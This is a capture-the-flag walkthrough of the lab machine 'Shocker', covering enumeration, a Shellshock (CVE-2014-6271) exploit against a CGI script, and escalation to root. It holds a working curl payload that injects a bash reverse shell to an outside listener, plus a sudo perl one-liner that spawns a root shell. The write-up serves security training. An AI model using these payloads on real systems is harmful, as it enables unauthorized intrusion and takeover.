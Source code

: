 # IP address: 10.10.10.56

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.56 -t all

Running all scans on 10.10.10.56

Host is likely running Linux


---------------------Starting Script Scan-----------------------



PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### HTTP

The home page of the site is simple. 

![site](https://github.com/codetantrum/walkthroughs/blob/master/Shocker/images/Pasted%20image%2020211113123436.png)

Nothing in the source code.
```
┌──(code㉿kali)-[~/Downloads]
└─$ curl http://10.10.10.56/                                                                        
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html> 
```

Nothing in the image.
```
┌──(code㉿kali)-[~/Downloads]
└─$ steghide extract -sf bug.jpg                                                                    
Enter passphrase: 
steghide: could not extract any data with that passphrase!

┌──(code㉿kali)-[~/Downloads]
└─$ exiftool bug.jpg 
ExifTool Version Number         : 12.32
File Name                       : bug.jpg
Directory                       : .
File Size                       : 36 KiB
File Modification Date/Time     : 2021:11:13 12:40:02-05:00
File Access Date/Time           : 2021:11:13 12:40:02-05:00
File Inode Change Date/Time     : 2021:11:13 12:40:02-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 820
Image Height                    : 420
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 820x420
Megapixels                      : 0.344

```

Fuzzing for files and directories on the server, we find user.sh and download it. 
```
┌──(code㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/FUZZ -e .php,.txt,.py,.html,.sh -recursion -recursion-depth 2

...

user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]

┌──(code㉿kali)-[~]
└─$ wget http://10.10.10.56/cgi-bin/user.sh
--2021-11-13 13:32:20--  http://10.10.10.56/cgi-bin/user.sh
Connecting to 10.10.10.56:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/x-sh]
Saving to: ‘user.sh’

user.sh                      [ <=>                               ]     118  --.-KB/s    in 0.001s  

2021-11-13 13:32:20 (218 KB/s) - ‘user.sh’ saved [118]


┌──(code㉿kali)-[~]
└─$ cat user.sh                                                                                     
Content-Type: text/plain

Just an uptime test script

 13:38:37 up  2:32,  0 users,  load average: 0.01, 0.13, 0.09

```

When Googling for CGI exploitation, we find a Shellshock vulnerability which (probaby non-coincidentally) relates to the name of the target machine (Shocker).

Running the nmap script to check for the Shellshock vulnerability, we see that the target is vulnerable. 
```
┌──(code㉿kali)-[~]
└─$ nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 16:27 EST
Nmap scan report for 10.10.10.56
Host is up (0.024s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds

```

# Exploitation

With the following command and a netcat listener on port 4488, we get a reverse shell on the target.
```
┌──(code㉿kali)-[~]
└─$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/4488 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

On target:
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 40980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Shocker/images/Pasted%20image%2020211113163523.png)

# Privilege Escalation

Looks like our user, shelly, can execute perl as root without a password. 
```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)

```

# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Shocker/images/Pasted%20image%2020211113164349.png)
